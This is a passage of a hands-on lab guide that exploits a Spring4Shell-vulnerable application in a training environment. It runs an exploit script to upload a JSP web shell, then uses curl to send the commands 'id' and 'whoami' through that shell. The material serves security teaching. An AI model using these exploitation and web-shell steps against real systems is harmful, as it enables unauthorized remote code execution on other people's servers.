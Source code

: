 ![](./images/pan05.png)


>**Note**:- **You have to find your application server IP, also known as your target IP, which can be found on the lab environment details page and is your Ubuntu machine public IP.**

![](./Images/HandsOn-Spring1.png)

3.	In order to exploit and upload the shell, run the below command and provide target IP with your spring4shell vulnerable application target IP.

```
bash /tmp/exploit.sh
```
**You can copy the spring4shell vulnerable application target IP as given below and provide as input after above exploit.sh script ran successfully."**

* vulnerable application target IP: **<inject key="UbuntuVMPublicIp" enableCopy="true" />**
  
![](./images/pan06.png)

4.	We are going to run below command to check our shell is working.
   
**You can copy the Target IP as given below and provide it in the following curl command."**

* Target IP: **<inject key="KaliVMPublicIp" enableCopy="true" />**
   
```
curl --output - http://<TARGET IP>/shell.jsp?cmd=id
```
![](./images/pan07.png)

**You can copy the Target IP as given below and provide it in the following curl command."**

* Target IP: **<inject key="KaliVMPublicIp" enableCopy="true" />**
  
```
curl --output - http://<TARGET IP>/shell.jsp?cmd=whoami
```
    